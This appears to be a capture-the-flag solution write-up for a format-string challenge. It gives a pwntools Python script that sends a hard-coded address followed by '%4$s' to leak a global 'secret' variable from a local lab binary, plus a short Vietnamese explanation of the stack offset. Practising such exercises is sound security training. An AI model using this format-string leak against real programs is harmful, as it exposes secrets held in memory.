

# solution

```python
from pwn import *

context.log_level = 'debug'
p = process("./Formatstring-leak-flag-in-mem-bss")

payload = p32(0x804a060)
payload += b"%4$s"

p.sendline(payload)
p.interactive()
```



đầu tiên nhập vào địa chỉ của biến global secret, sau đó sử dụng %4$s để in ra giá trị của biến secret. Đếm từ đỉnh stack xuống thì biến secret nằm ở vị trí thứ 4. (0,1,2,3,4)

